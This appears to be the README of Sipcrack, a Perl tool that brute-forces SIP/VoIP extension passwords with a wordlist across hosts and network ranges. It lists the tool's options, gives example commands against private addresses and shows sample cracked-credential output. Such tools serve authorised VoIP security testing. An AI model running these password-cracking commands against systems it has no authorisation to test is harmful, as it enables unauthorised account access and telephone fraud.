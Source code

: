 Sipcrack is a remote password cracker. Sipcrack uses multithread and using a wordlist can test passwords for several users in IP and port ranges.

# Features #
Sipcrack allows us to:
  * Test remotely a list of users and passwords using REGISTER method
  * Test users and passwords on a network range
  * Use a prefix for extensions range (maybe user and extension is not the same)
  * Connect over UDP or TCP protocol.
  * Try UDP and TCP at the same time.
  * Resume a previous session
  * Analyze responses using verbose mode.

# Usage #
```
$ perl sipcrack.pl

SipCRACK - by Pepelux <pepeluxx@gmail.com>
--------

Usage: perl sipcrack.pl -h <host> -w wordlist [options]
 
== Options ==
-e  <string>     = Extension (default from 100 to 1000)
-s  <integer>    = Source number (CallerID) (default: 100)
-d  <integer>    = Destination number (default: 100)
-r  <integer>    = Remote port (default: 5060)
-p  <string>     = Prefix (for extensions)
-proto  <string>  = Protocol (UDP or TCP - By default: UDP)
-ip <string>     = Source IP (by default it is the same as host)
-resume          = Resume last session
-w               = Wordlist
-v               = Verbose (trace information)
-vv              = More verbose (more detailed trace)
```

  * Try to crack extensions from 100 to 1000 on 192.168.0.1 port 5060
```
perl sipcrack.pl -h 192.168.0.1 -w wordlist
```

  * Try to crack extensions from user100 to user200 on 192.168.0.0 network
```
perl sipcrack.pl -h 192.168.0.0/24 -e 100-200 -p user -w wordlist
```

# Example #
```
$ perl sipcrack.pl -h 192.168.0.55 -e 100-200 -w dictionary
Found match: 192.168.0.55:5060 - User: 100 - Pass: p3p3lux
Found match: 192.168.0.55:5060 - User: 101 - Pass: p3p3lux

IP address	Port	Exten	Pass
==========	====	=====	====
192.168.0.55	5060	100	p3p3lux
192.168.0.55	5060	101	p3p3lux
```